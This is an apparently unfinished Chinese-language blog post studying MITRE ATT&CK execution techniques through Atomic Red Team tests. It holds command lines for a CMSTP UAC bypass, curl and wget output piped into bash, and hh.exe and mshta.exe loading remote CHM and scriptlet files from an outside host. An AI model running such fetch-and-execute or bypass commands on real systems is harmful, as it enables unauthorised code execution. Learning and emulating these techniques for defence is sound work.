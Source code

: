```yaml
---
layout: post
title: 跟着ATT&CK学安全之execution
excerpt: "跟着ATT&CK学安全之execution"
categories: [未完待续]
comments: true
---
```

#### T1191 - CMSTP

平台:Windows
运行方式如下`cmstp.exe /s T1191.inf`

`cmstp.exe /s T1191_uacbypass.inf /au`

#### T1059 - Command-Line Interface

平台:macOS, CentOS, Ubuntu, Linux

运行如下命令
```bash
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
#### T1223 - Compiled HTML File
运行如下命令
```
hh.exe D:\pycharmproject\atomic-red-team-master\atomics\T1223\src\T1223.chm
```
或者
```
hh.exe http://snappyzz.com/T1223.chm		#这个无法使用,正在解决中
```
#### T1170 - Mshta
```
mshta.exe javascript:a=(GetObject("script:http://snappyzz.com/mshta.sct")).Exec();close();
```
或者
```
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""C:\Windows\SysWOW64\calc.exe"")(window.close)")
```
#### T1086 - PowerShell
